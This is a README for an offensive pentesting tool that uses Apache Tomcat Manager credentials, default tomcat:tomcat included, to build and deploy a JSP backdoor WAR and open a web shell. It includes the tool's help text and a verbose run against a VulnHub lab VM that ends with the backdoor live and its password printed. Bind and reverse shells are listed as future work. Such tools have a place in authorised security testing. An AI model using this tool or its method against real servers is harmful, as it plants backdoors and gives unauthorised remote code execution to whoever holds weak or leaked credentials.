

## tomcatWarDeployer
Apache Tomcat auto WAR deployment &amp; pwning penetration testing tool.

### What is it?
This is a penetration testing tool intended to leverage Apache Tomcat credentials in order to automatically generate and deploy JSP Backdoor, as well as invoke it afterwards and provide nice shell (either via web gui, listening port binded on remote machine or as a reverse tcp payload connecting back to the adversary). 

In practice, it generates JSP backdoor WAR package on-the-fly and deploys it at the Apache Tomcat Manager Application, using valid HTTP Authentication credentials that pentester provided (or custom ones, in the end, we all love *tomcat:tomcat* ). 

### Usage
As simple as providing server's address with port, as a IP:PORT pair. 
Here goes the help:

```
user$ python tomcatWarDeployer.py --help

    Apache Tomcat auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
Usage: tomcatWarDeployer.py [options] server

  server		Specifies server address. Please also include port after colon.

Options:
  -h, --help            show this help message and exit
  -X PASSWORD, --shellpass=PASSWORD
                        Specifies authentication password for uploaded shell,
                        to prevent unauthenticated usage. Default: randomly
                        generated. Specify "None" to leave the shell
                        unauthenticated.
  -t TITLE, --title=TITLE
                        Specifies head>title for uploaded JSP WAR payload.
                        Default: "JSP Application"
  -n APPNAME, --name=APPNAME
                        Specifies JSP application name. Default: "jsp_app"
  -x, --unload          Unload existing JSP Application with the same name.
                        Default: no.
  -f WARFILE, --file=WARFILE
                        Custom WAR file to deploy. By default the script will
                        generate own WAR file on-the-fly.

  General options:
    -v, --verbose       Verbose mode.
    -U USER, --user=USER
                        Tomcat Manager Web Application HTTP Auth username.
                        Default="tomcat"
    -P PASS, --pass=PASS
                        Tomcat Manager Web Application HTTP Auth password.
                        Default="tomcat"
```

And sample usage on [Kevgir 1 VM by canyoupwn.me](https://www.vulnhub.com/entry/kevgir-1,137/) running at 192.168.56.100:8080 :

```
user$ python tomcatWarDeployer.py -n back -v 192.168.56.100:8080

    Apache Tomcat auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
DEBUG: Browsing to "http://192.168.56.100:8080/manager/"... Creds: tomcat:tomcat
DEBUG: Apache Tomcat Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Generating temporary structure for back WAR at: "/tmp/tmpr5cLZE"
DEBUG: Working with Java at version: 1.8.0_60
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/back.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 538) (out= 255)(deflated 52%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 68) (out= 67)(deflated 1%)
adding: index.jsp(in = 2807) (out= 1081)(deflated 61%)
DEBUG: WAR file structure:
DEBUG: /tmp/tmpr5cLZE
├── files
│   ├── META-INF
│   │   └── MANIFEST.MF
│   └── WEB-INF
│       └── web.xml
└── index.jsp

3 directories, 3 files
DEBUG: It looks that the application with specified name "back" has not been deployed yet.
DEBUG: Deploying application: back from file: "/tmp/back.war"
DEBUG: Succeeded, invoking it...
DEBUG: Invoking application at url: "http://192.168.56.100:8080/back/"
INFO: JSP Backdoor up & running on http://192.168.56.100:8080/back/
INFO: Happy pwning, here take that password: 'unvQinPLUDiR'
DEBUG: Removing temporary WAR directory: "/tmp/tmpr5cLZE"
```

Which will result in the following JSP application accessible remotely:


As one can see, there is password needed for leveraging deployed backdoor, preventing thus unauthenticated access during conducted assessment.

That would be all I guess. 

### TODO

* Implement bind & reverse tcp payload functionality as well as some pty to interact with it
* Test it on tomcat8


